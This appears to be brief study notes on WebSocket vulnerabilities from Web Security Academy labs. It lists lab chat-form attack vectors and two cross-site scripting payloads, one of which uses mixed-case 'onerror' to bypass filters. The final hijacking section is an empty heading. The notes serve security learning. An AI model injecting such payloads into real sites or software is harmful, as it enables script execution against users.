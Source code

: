# WebSocket Vulnerabilities

### Manipulating WebSocket messages to exploit vulnerabilities
* Attack Vector
```html
<form id="chatForm" action="wss://ac2c1f411fac5042c0e80df200df001b.web-security-academy.net/chat" encode="true">
```
* Payload
```json
{"message" : "<img src=1 onerror='alert(1)'>"}
```

### Manipulating the WebSocket handshake to exploit vulnerabilities
* Attack Vector
```html
<form id="chatForm" action="wss://ac2c1f411fac5042c0e80df200df001b.web-security-academy.net/chat" encode="true">
```
* Payload
```json
{"message" : "<img src=1 oNeRrOr=alert`1`>"}
```

### Cross-site WebSocket hijacking

